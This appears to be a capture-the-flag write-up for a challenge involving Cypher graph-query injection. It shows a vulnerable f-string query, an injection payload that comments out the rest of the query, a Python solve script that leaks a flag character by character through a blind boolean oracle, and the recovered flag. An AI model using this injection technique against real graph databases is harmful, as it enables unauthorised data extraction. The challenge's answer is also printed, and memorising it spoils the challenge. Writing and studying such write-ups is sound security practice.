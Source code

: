 
Initial query looks like this
```python
distance_query = f'MATCH (n {{id: {start}}})-[p *bfs]-(m {{id: {end}}}) RETURN size(p) AS distance;'
# injected
distance_query = 'MATCH (n {id: 1})//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'
```

sample payload wlll look like
```python
# returns 1 if substring index 0 of n.name is "F"
payload = "-1}) RETURN toInteger(replace(substring(n.name, 0, 1), \"F\", \"1\")) AS distance;//

# payload injected
distance_query = 'MATCH (n {id: -1}) RETURN toInteger(replace(substring(n.flag,"+str(i)+", 1), \""+q+"\", \"1337\")) AS distance;//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'

# })-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;  gets commented out
```
solve.py 
```python
import requests
import re

url = 'https://tbtl-mexico-city-tour.chals.io/search'

# distance_query = 'MATCH (n {id: 1})//})-[p *bfs]-(m {id: 2}) RETURN size(p) AS distance;'
def querier(i, q):
    # generate a single query
    payload = "-1}) RETURN toInteger(replace(substring(n.flag,"+str(i)+", 1), \""+q+"\", \"1337\")) AS distance;//"
    data = {
        "startStation": payload,
        "endStation": "1",
    }
    return data


def main():
    _min = 32
    _max = 126
    flag = ""

    for i in range(0, 30):
        for c in range(_min, _max):
            q = chr(c)
            data = querier(i, q) 
            r = requests.post(url, data=data)
            if re.search(r'1337', r.text):
                flag += q
                print(flag)
                break
            else:
                pass

if __name__ == "__main__":
    main()
```
flag: **TBTL{wh3R3_15_mY_GR4PH_h1dd3n}**
